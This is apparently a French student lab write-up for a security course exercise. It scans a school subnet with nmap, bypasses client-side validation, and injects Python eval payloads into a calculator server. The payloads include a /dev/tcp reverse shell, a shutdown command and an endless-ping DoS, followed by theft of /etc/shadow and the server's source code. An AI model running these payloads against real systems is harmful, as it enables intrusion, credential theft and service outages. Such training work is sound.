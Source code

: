 # TP5 : Exploit, pwn, fix


![Gunna be hax](./img/gunna_be_hacker.png)

## Sommaire

- [TP5 : Exploit, pwn, fix](#tp5--exploit-pwn-fix)
  - [Sommaire](#sommaire)
  - [0. Setup](#0-setup)
  - [1. Reconnaissance](#1-reconnaissance)
  - [2. Exploit](#2-exploit)
  - [3. Reverse shell](#3-reverse-shell)
  - [4. Bonus : DOS](#4-bonus--dos)
  - [II. Remédiation](#ii-remédiation)

## 0. Setup

## 1. Reconnaissance


🌞 **Déterminer**

- à quelle IP ce client essaie de se co quand on le lance : 10.1.2.12

- à quel port il essaie de se co sur cette IP : 13337

Afin de pouvoir lancer le fichier client.py, il faut créer le dossier /var/log/bs_client, pour ensuite mettre le fichier client.py dedans. Il faut aussi créer un fichier bs_client.log afin de voir le retour du serveur. Lorsque nous lançons l'application client.py, nous pouvons ouvrir un wireshark et filtrer par tcp afin de voir sur quelle port et quelle addresse ip se connecte le client.


➜ **On me dit à l'oreillette que cette app est actuellement hébergée au sein de l'école.**

🌞 **Scanner le réseau**

- trouvez une ou plusieurs machines qui héberge une app sur ce port
- votre scan `nmap` doit être le plus discret possible : il ne teste que ce port là, rien d'autres

```bash
m4ul@thinkpad:~/Desktop$ sudo nmap -sS 10.33.64.0/20 -p 13337 --open
Starting Nmap 7.80 ( https://nmap.org ) at 2023-11-30 10:50 CET
Nmap scan report for 10.33.66.165
Host is up (0.0068s latency).

PORT      STATE SERVICE
13337/tcp open  unknown
MAC Address: 56:4C:81:26:BF:C8 (Unknown)

Nmap scan report for 10.33.70.40
Host is up (0.089s latency).

PORT      STATE SERVICE
13337/tcp open  unknown
MAC Address: E4:B3:18:48:36:68 (Intel Corporate)

Nmap scan report for 10.33.76.195
Host is up (0.0077s latency).

PORT      STATE SERVICE
13337/tcp open  unknown
MAC Address: 82:30:BF:B6:57:2F (Unknown)

Nmap scan report for 10.33.76.217
Host is up (0.0064s latency).

PORT      STATE SERVICE
13337/tcp open  unknown
MAC Address: 2C:6D:C1:5E:41:6A (Unknown)

Nmap done: 4096 IP addresses (869 hosts up) scanned in 246.11 seconds
```


🦈 **tp5_nmap.pcapng**


🌞 **Connectez-vous au serveur**


[Fichier client modifié](/client.py)

## 2. Exploit

➜ **On est face à une application qui, d'une façon ou d'une autre, prend ce que le user saisit, et l'évalue.**

🌞 **Injecter du code serveur**

![](/img/cowboy.gif)

En lisant le code client non modifié, nous pouvons voir que c'est bien ce code qui verifie ce que nous voulions envoyer au serveur. En mettant donc les matchs de regex en commentaire, nous pouvons maintenant envoyer ce qu'on veut au serveur.

```python
#   match= re.match(pattern, userMessage)
  #  if match:
   #     num1, operator, num2 = match.groups()
    #    num1, num2 = int(num1), int(num2)

        # Vérifiez si les nombres sont dans la plage [-100000, 100000]
    if True:
        s.sendall(userMessage.encode("utf-8"))
        logger.info("Message envoyé au serveur %s : %s", host, userMessage)
        #else:
         #   raise ValueError("l'opération autorisée n'accepte que des nombres entiers compris entre -100000 et +100000")
  #  else:
   #     raise ValueError("l'opération autorisée n'accepte que les signes suivants (-,+,*) et des nombres entiers compris entre -100000 et +100000")
```

Nous pouvons maintenant essayer d'envoyer une commande au serveur pour qu'il puisse nous envoyer un ping:

```
$ sudo python3 client.py
Veuillez saisir une opération arithmétique : __import__('os').system('ping -c 1 10.33.70.30')
```

## 3. Reverse shell

➜ **Injecter du code c'est bien mais...**



🌞 **Obtenez un reverse shell sur le serveur**

```
$ sudo python3 client.py
Veuillez saisir une opération arithmétique : __import__('os').system('sh -i >& /dev/tcp/10.33.67.140/6969 0>&1')
```

🌞 **Pwn**

- voler les fichiers [`/etc/shadow`](shadow) et [`/etc/passwd`](passwd)

Afin de retrouver le code serveur, j'ai listé tous les processus en cours:

```
sh-5.1# ps -ef
ps -ef
UID          PID    PPID  C STIME TTY          TIME CMD
root        2312       1  0 11:46 ?        00:00:00 /usr/bin/python3.9 /opt/serv.py
root        2364    2312  0 11:55 ?        00:00:00 sh -c sh -i >& /dev/tcp/10.33.67.140/6969 0>&1
```

- voler le [code](serv.py) serveur de l'application 


- déterminer si d'autres services sont disponibles sur la machine:

On voit qu'il n'y a que le service sshd qui est disponible en plus du serveur python
```
sh-5.1# ss -ltunp
ss -ltunp
Netid State  Recv-Q Send-Q Local Address:Port  Peer Address:PortProcess                             
tcp   LISTEN 0      1          10.0.3.15:13337      0.0.0.0:*    users:(("python3.9",pid=2312,fd=4))
tcp   LISTEN 0      128          0.0.0.0:22         0.0.0.0:*    users:(("sshd",pid=699,fd=3))      
tcp   LISTEN 0      128             [::]:22            [::]:*    users:(("sshd",pid=699,fd=4)) 
```
## 4. Bonus : DOS

⭐ **BONUS : DOS l'application**


Sans faire exprès, nous avons reussi à DOS le serveur en envoyant un ping sans fin, car une fois la commande envoyée, nous ne pouvions plus envoyer de nouvelles commandes.
```
$ sudo python3 client.py
Veuillez saisir une opération arithmétique : __import__('os').system('ping 10.33.70.30')
```

![](img/shutdown.gif)

Haha shutdown le serveur

```
$ sudo python3 client.py
Veuillez saisir une opération arithmétique : __import__('os').system('shutdown now')
```

## II. Remédiation

🌞 **Proposer une remédiation dév**


[Code serveur remédié](Remediations/serv_remedie.py)

🌞 **Proposer une remédiation système**


![](img/flex.gif)